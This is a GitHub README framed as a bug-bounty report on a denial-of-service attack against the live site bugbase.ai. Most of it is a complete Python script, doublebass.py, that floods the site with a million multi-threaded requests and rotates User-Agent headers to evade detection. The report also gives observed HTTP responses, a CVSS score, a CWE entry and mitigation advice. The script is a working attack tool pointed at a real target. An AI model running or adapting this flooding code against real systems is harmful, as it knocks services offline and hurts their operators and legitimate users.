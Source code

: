 # Do_you_like_bass
Bugbase Ddos

### Report: DDoS through Resource Exhaustion Using `doublebass.py`

#### Overview

This report details a Distributed Denial of Service (DDoS) attack executed through resource exhaustion using a Python script (`doublebass.py`). The attack targets the website `https://bugbase.ai`, aiming to overload its resources and deny legitimate access. The script generates a high volume of GET requests using randomly generated URLs, leveraging multi-threading to maximize impact.

#### Attack Description

**Script: `doublebass.py`**
- The script sends a large number of GET requests to the target URL with randomized suffixes.
- It utilizes multi-threading to create parallel requests, significantly increasing the load on the target server.
- User-Agent headers are rotated to mimic requests from different devices and platforms, making detection harder.
- The script can be configured to repeat the attack a specified number of times (set to 1,000,000 in the example).

```python
import requests
import threading
import random
import string
import time

# Base URL pattern with a placeholder for the random suffix
base_url_pattern = "https://bugbase.ai/dashboard/reports/{suffix}"

# Function to generate random suffixes
def generate_random_suffix(length=24):
    return ''.join(random.choices(string.ascii_lowercase + string.digits, k=length))

# List of user agents to rotate through
user_agents = [
    'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.64 Safari/537.36',
    'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36',
    'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.0.3 Safari/605.1.15',
    'Mozilla/5.0 (iPhone; CPU iPhone OS 14_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.0 Mobile/15E148 Safari/604.1',
    # Add more user agents as needed
]

# Number of times to repeat the attack
repeat = 1000000  # Set this to a large number for a heavier attack simulation

# Function to perform the GET request
def perform_get_request(base_url_pattern, headers, i):
    try:
        random_suffix = generate_random_suffix()
        url = base_url_pattern.format(suffix=random_suffix)

        response = requests.get(url, headers=headers)

        # Print out the response code, final URL after redirect, and the payload used
        print(f"Attempt {i + 1}: Requested URL {url} - Final URL: {response.url} - Status Code: {response.status_code}")
    except Exception as e:
        print(f"Error occurred: {e}")

# Function to handle threading
def get_with_threads(base_url_pattern, repeat):
    threads = []
    for i in range(repeat):
        headers = {
            'User-Agent': user_agents[i % len(user_agents)],
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
            'Connection': 'keep-alive',
        }

        if len(threads) >= 100:  # Manage thread count
            for thread in threads:
                thread.join()
            threads = []

        thread = threading.Thread(target=perform_get_request, args=(base_url_pattern, headers, i))
        threads.append(thread)
        thread.start()

     #   time.sleep(0.001)  # Optional delay to manage rate-limiting

    # Wait for all remaining threads to complete
    for thread in threads:
        thread.join()

# Example usage
if __name__ == "__main__":
    get_with_threads(base_url_pattern, repeat)
```
  
**Observed Behavior:**
- The attack led to HTTP 429 errors (`Too Many Requests`), indicating the server's rate-limiting mechanisms were triggered.
- Successful status code 200 responses were also observed, indicating some requests bypassed the rate-limiting temporarily.

#### Images and Script Evidence

1. **Evidence of Attack Execution:**
   ![computer check](https://raw.githubusercontent.com/DeadmanXXXII/Do_you_like_bass/main/PXL_20240909_095222744.jpg)
   
   This image shows the browser displaying an HTTP 429 error (`Too Many Requests`) during the attack.

2. **Script Execution Output:**
   ![termint output](https://raw.githubusercontent.com/DeadmanXXXII/Do_you_like_bass/main/Screenshot_20240909-105211.png)
   
   This screenshot captures the script's execution on a mobile device, showing numerous GET requests sent to `https://bugbase.ai` and corresponding status codes.

#### Impact Assessment

**Potential Impact:**
- **Resource Depletion:** The flood of requests can deplete server resources, including CPU, memory, and bandwidth, potentially causing downtime.
- **Service Disruption:** Legitimate users may be unable to access the website, leading to a loss of business, reputation damage, and potential financial losses.

**CVSS Score:**
- **Base Score:** 7.5 (High)
- **Vector:** AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
- **Explanation:** The attack is remotely exploitable with low complexity, requiring no authentication. It primarily affects the availability of the target website without compromising confidentiality or integrity.

**CWE ID:**
- **CWE-400: Uncontrolled Resource Consumption ('Resource Exhaustion')**
  - **Description:** The vulnerability occurs when an attacker can send a large number of requests or cause significant processing overhead, leading to resource exhaustion on the server.

#### Conclusion

The `doublebass.py` script effectively simulates a DDoS attack through resource exhaustion, impacting the availability of `https://bugbase.ai`. The attack triggers rate-limiting mechanisms but continues to overload the server, causing intermittent service disruptions. To mitigate such attacks, implementing stronger rate-limiting, IP blacklisting, and using a content delivery network (CDN) with DDoS protection are recommended.

#### Recommendations:
- **Rate Limiting:** Strengthen the existing rate-limiting rules to block repetitive requests more aggressively.
- **DDoS Mitigation Services:** Implement DDoS protection services such as Cloudflare or AWS Shield to absorb and filter malicious traffic.
- **Server Hardening:** Optimize server configurations to handle a higher volume of requests without resource depletion.
